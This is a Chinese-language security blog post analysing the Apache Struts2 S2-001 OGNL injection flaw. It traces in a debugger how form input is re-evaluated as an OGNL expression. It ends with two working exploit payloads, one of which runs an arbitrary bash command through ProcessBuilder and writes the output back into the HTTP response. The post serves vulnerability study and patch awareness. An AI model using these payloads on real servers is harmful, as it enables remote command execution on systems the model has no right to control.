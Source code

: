 # JavaStruts2系列-S2-001

  
  
&lt;!--more--&gt;  
## 0x01 S2-001漏洞复现  
### 漏洞影响范围  
WebWork 2.1 (with altSyntax enabled)    
WebWork 2.2.0 - WebWork 2.2.5    
Struts 2.0.0 - Struts 2.0.8  
Struts2对 OGNL 表达式的解析使用了开源组件`opensymphony.xwork. 2.0.3`所以会有漏洞  
### 流程分析  
在`org.apache.struts2.dispatcher.FilterDispatcher`下，在这一个类的`doFilter()`方法中做了如下业务  
设置编码和本地化信息  
创建`ActionContext`对象  
分配当前线程的分发器  
将request对象进行封装  
获取 ActionMapping 对象，ActionMapping 对象对应一个 action 详细配置信息  
执行 Action 请求，也就是 172 行的`serviceAction()`方法  
先在 Filter 的`doFilter()`方法下个断点，开始调试  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410151644176.png)
首先获取当前请求是否已经有`ValueStack`对象，这样做的目的是在接收到 chain 跳转方式的请求时，可以直接接管上次请求的 action。如果没有 ValueStack 对象，获取当前线程的 ActionContext 对象；如果有 ValueStack 对象，将事先处理好的请求中的参数 put 到 ValueStack 中，获取 ActionMapping 中配置的 namespace，name，method 值  
在`187`行这里，跟进`serviceAction()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152328470.png)
通过`ActionProxyFactory`的`createActionProxy()`类初始化一个`ActionProxy`，在这过程中也会创建`StrutsActionProxy`的实例。`StrutsActionProxy`是继承自`com.opensymphony.xwork2.DefaultActionProxy`的，在这个代理对象内部实际上就持有了`DefaultActionInvocation`的一个实例  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152333108.png)
`DefaultActionInvocation`对象中保存了`Action`调用过程中需要的一切信息，继续往下走，跟进`proxy.execute()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152339100.png)
获取到了上下文环境，并且调用`setter`方式赋值上下文，接着继续跟进`invoke()`方法  
在`invoke()`方法中，首先会顺序的递归执行当前`Action`中所配置的所有的拦截器，知道拦截器遍历完毕调用真正的`Action`，此处是一个`interceptor`迭代器再进行遍历操作，对应遍历的内容是`struts2`包内的`struts-default.xml`里面`interceptors`标签中的内容  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152351941.png)
在众多迭代器中，`param`这一个迭代器使用来处理我们输入的参数的，所以会想到，会不会对应的迭代器里就有所谓的 OGNL 表达式的处理呢？跟进去查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152356561.png)
这段的大致意思就是，最开始在登陆框中的`username`和`password`会被保存到stack 里面，通过`ActionContext.getParameters()`方法将`stack`里面的值拿出来，再通过`ValueStack.setValue(String,Object)`方法把值`set`进去  
接着在后文，它表明了这个类能够处理 OGNL 表达式，并且已经考虑了安全性问题  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152357124.png)
而此处的迭代器调用栈如下  
```java  
intercept:155, ServletConfigInterceptor (org.apache.struts2.interceptor)  
doProfiling:224, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
doProfiling:223, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
profile:455, UtilTimerStack (com.opensymphony.xwork2.util.profiling)  
invoke:221, DefaultActionInvocation (com.opensymphony.xwork2)  
intercept:123, AliasInterceptor (com.opensymphony.xwork2.interceptor)  
doProfiling:224, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
doProfiling:223, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
profile:455, UtilTimerStack (com.opensymphony.xwork2.util.profiling)  
invoke:221, DefaultActionInvocation (com.opensymphony.xwork2)  
intercept:176, ExceptionMappingInterceptor (com.opensymphony.xwork2.interceptor)  
doProfiling:224, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
doProfiling:223, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
profile:455, UtilTimerStack (com.opensymphony.xwork2.util.profiling)  
invoke:221, DefaultActionInvocation (com.opensymphony.xwork2)  
execute:50, StrutsActionProxy (org.apache.struts2.impl)  
serviceAction:504, Dispatcher (org.apache.struts2.dispatcher)  
doFilter:419, FilterDispatcher (org.apache.struts2.dispatcher)  
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)  
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)  
```  
在一个类中进行了对应的迭代器判断  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160000403.png)
一直到迭代器为`params`为止，跟进。跟进之后会到`ParameterInterceptor.doIntercept()`方法处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160002064.png)
跟进到`setParameters()`方法里面，再从这里面进`setValue()`方法，为什么要跟进`setValue()`方法？因为上面的注释中写到了，OGNL 的语句会被送到`OgnlValueStack#setValue`处进行处理  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160006049.png)
一直跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160007204.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160007364.png)
经历了一系列的迭代器之后，所有迭代器处理完毕了，执行了`invokeActionOnly()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160012314.png)
通过反射调用执行了`action`实现类里的`execute`方法，开始处理用户的逻辑信息。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162310496.png)
处理完毕用户的逻辑信息之后，我们继续往下走，跟进`executeResult()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162311571.png)
首先`createResult()`这里创建了一个`Result`对象，对应的方法`com.opensymphony.xwork2.DefaultActionInvocation#createResult`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162314918.png)
如果当时调用了`Action`返回了`Result`对象，则直接返回；否则，通过`proxy`对象获取配置信息，根据 resultCode 获取到`Result`对象。  
继续往下走，`executeResult()`方法中调用了`execute()`方法；跟进`doExecute()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162316654.png)
准备执行环境: `request, pageContext`等等后，发送真正的响应信息，可以看到我们自己配置时候返回结果是 `jsp` 文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162317142.png)
之后调用了`JspServlet`来处理请求，在解析标签的时候，在标签的开始和结束位置，会分别调用对应实现类如`org.apache.struts2.views.jsp.ComponentTagSupport`中的`doStartTag()`及`doEndTag()`，这里会调用组件`org.apache.struts2.components.UIBean`的`end()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162324991.png)
跟进`evaluateParams()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162326391.png)
由于`altSyntax`默认开启了，接下来会调用`findValue()`方法寻找参数值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162327320.png)
继续跟进`translateVariables()`方法  
最终触发点是`TextParseUtil#translateVariables`，在此处下了断点之后，可以看到依次进入了好几次，不同时候的`expression`的值都会有所不同，我们找到值为`password`时开始分析。  
经过两次如下的代码之后，将生成 OGNL 表达式，返回了`%{password}`  
```java  
return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);  
```  
然后这次判断不会直接走到`return`，来到后面，取出`%{password}`中间的值`password`赋值给`var`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162349232.png)
然后通过`Object o = stack.findValue(var,asType)`获得到`password`的值为`%{1&#43;1}`  
然后重新赋值给 expression，进行下一次循环  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410170005646.png)
在这一次循环的时候，就再次解析了`%{1&#43;1}`这个`OGNL`表达式，并将其赋值给了`o`  
最后`expression`的值就变成了2，不是 OGNL 表达式时就会直接进入  
```java  
return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);  
```  
最后返回并显示在表达那种，这是含有 OGNL 表达式的处理，比正常的处理多了OGNL这一部分，所以 Struts2 的运行流程到此结束。  
### 漏洞利用  
exp  
```java  
%{(new java.lang.ProcessBuilder(new java.lang.String[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})).start()}  
```  
或者  
```java  
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{&#34;bash&#34;,&#34;-c&#34;,&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get(&#34;com.opensymphony.xwork2.dispatcher.HttpServletResponse&#34;),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}  
```  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/javastruts2%E7%B3%BB%E5%88%97-s2-001/  

